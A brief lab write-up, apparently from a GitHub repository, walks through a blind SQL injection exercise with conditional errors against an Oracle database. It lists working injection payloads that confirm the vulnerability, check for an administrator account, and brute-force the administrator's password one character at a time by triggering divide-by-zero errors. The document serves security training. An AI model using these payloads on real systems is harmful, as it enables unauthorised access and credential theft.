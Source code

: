 # Lab 12 - Blind SQL injection with conditional errors

since this oracle database we will use different information sechame and operators

## 1) Confirm that the parameter is vulnerable to blind SQLi
by using payload <br>
' || (select '' from dual) || '
the response have no error code which is okay 
if we try something wrong i see error
like ' || (select '' from dualsaasaasasassa) || '

## 2) Confirm that we have a users and administrator user in table
' || (select '' from users where rownum =1) || ' 
we have no error
then 
' || (select '' from users where username='administrator') || ' 
there's no error

##  3) bruteforce the password character by character 
3'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

![image](https://github.com/user-attachments/assets/846b2816-119f-4bf7-b615-9175819904f8)
